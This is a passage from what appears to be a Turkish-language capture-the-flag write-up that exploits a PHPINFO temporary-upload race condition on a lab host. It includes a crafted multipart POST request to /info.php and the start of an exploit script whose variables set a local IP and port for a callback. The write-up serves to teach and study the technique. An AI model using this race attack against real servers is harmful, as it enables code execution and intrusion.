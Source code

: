 Bu, herhangi bir PHP isteğinin yüklenen dosyaları kabul edeceği ve bu dosyaların PHP isteği tamamlanana kadar geçici bir dizine kaydedileceği, ardından ise silineceği anlamına gelir. PHPINFO, bu dosyaların listesini gösterecek şekilde yapılandırılmıştır. Bunu, Burp Proxy üzerinden /info.php isteğini yakalayıp, ardından isteği şu şekilde bir dummy dosya içeren bir POST isteğine dönüştürerek gösterebilirim:

```
POST /info.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ehjpe8sp040ma068aen884obr7
Upgrade-Insecure-Requests: 1
Content-Length: 194
Content-Type: multipart/form-data; boundary=---------------------------7db268605ae

-----------------------------7db268605ae
Content-Disposition: form-data; name="dummyname"; filename="test.txt" Content-Type: text/plainSecurity
Test
-----------------------------7db268605ae
```

GET'i POST olarak değiştirdim, Content-Type başlığını ve POST body'yi ekledim.

Ortaya çıkan sayfa bunu içeriyor:

![Pasted image 20250207231202.png](/img/user/Pasted%20image%2020250207231202.png)

Bu, dosyanın nerede saklandığının dosya adını içeriyor!

Bu dosya yalnızca bir saniyenin onda biri kadar var olsa da, bazen yarışı kazanıp dosya kaybolmadan önce sayfayı ziyaret edebiliyorum. **Insomnia**, HTTP başlıklarına çok fazla padding (boşluk) ekleyerek işleme süresini artırıyor ve böylece saldırganın yarışı kazanma şansını yükseltiyor.

### Script Modifications

Insomnia bunu kullanacak bir Python scripti sağlıyor. Onu indireceğim, ancak bu durumda çalışması için biraz düzenleme gerekiyor.

İlk olarak, en üstte ihtiyaç duyacağım bazı değişkenleri toplayacağım:

```
local_ip = "10.10.14.24"
local_port = 443
phpsessid = "ehjpe8sp040ma068aen884obr7"
```


**PHPSESSID**, geçerli bir oturuma işaret etmelidir. Eğer bunu baştan yazıyor olsaydım, scripti sadece oturum açacak ve böylece bir oturum kimliği alacak şekilde yazardım, ama burada şu an karışmak istemediğim çok şey var.
